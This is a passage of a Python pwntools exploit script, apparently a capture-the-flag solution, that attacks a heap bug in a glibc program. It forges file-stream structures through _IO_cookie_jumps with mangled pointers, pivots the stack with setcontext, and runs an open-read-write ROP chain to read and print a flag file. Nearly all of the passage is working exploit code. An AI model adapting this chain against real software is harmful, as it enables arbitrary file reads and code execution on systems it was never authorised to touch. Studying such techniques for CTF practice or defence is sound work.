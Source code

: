 ```python
			payload = payload.ljust(0x78,"\x00")
			payload += p64(libc_base + libc.sym['_IO_stdfile_2_lock'])
			payload = payload.ljust(0xc8,"\x00")
			payload += p64(libc_base + libc.sym['_IO_cookie_jumps']+0x40)
			payload += p64(heap_base+0x10) #chunk 0->rdi
			payload += p64(0)
			payload += p64(ROL(gadget^(heap_base+0x1120),0x11))
			edit(2,0xe8,payload)
			sendit()
			#rdi->rdx
			payload = p64(0)#rdi
			payload += p64(heap_base + 0x1120+0x10)#rdx->chunk 5
			edit(0,0x10,payload)
			sendit()
			#rdx->setcontext
			payload = p64(0)*3 + "./flag\x00\x00"
			payload += p64(setcontex61)#call [rdx+0x20]
			payload = payload.ljust(0x68,"\x00")
			payload += p64(heap_base + 0x1120+0x10+0x18)#rdi->./flag
			payload += p64(0)#rsi->0
			payload = payload.ljust(0x88,"\x00")
			payload += p64(0x100)#rdx->0
			payload = payload.ljust(0xa0)
			payload += p64(heap_base+0x430+0x10)#rsp->chunk 1
			payload += p64(ret)#rcx->ret
			edit(5,0xb0,payload)
			sendit()
			#orw chain
			payload = p64(pop_rax)
			payload += p64(2)
			payload += p64(syscall)#open
			payload += p64(pop_rax)
			payload += p64(0)
			payload += p64(pop_rdi)
			payload += p64(3)
			payload += p64(pop_rsi)
			payload += p64(heap_base + 0x200)
			payload += p64(syscall)#read
			payload += p64(pop_rax)
			payload += p64(1)
			payload += p64(pop_rdi)
			payload += p64(1)
			payload += p64(pop_rsi)
			payload += p64(heap_base + 0x200)
			payload += p64(syscall)#write

			edit(1,17*8,payload)
			sendit()

			#trigger assert
			add(11,0x500)
			sendit()
            r=p.recvuntil("flag")
			flag = r+p.recvuntil("}")
			log.success(flag)
			p.interactive()
		except:	
			p.close()

```

